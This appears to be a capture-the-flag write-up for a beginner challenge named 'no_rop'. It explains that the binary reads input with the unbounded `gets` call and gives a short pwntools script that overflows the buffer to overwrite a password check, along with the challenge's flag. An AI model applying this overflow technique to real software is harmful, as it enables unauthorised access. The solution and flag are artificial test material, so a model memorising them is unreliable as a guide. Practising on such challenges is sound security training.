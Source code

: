 # Description
A password is required to access. Do we really need it?

## Solution
`gets` is used to read the string, it's deprecated because it doesn't check string bounds. We can exploit this by filling the buffer with some chars.

```python
from pwn import *

context.binary = "./no_rop"

p = process()
p.sendline(b"A" * 8 + p64(1))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

## Flag
```plain
Flag={hello_world_pwn}
```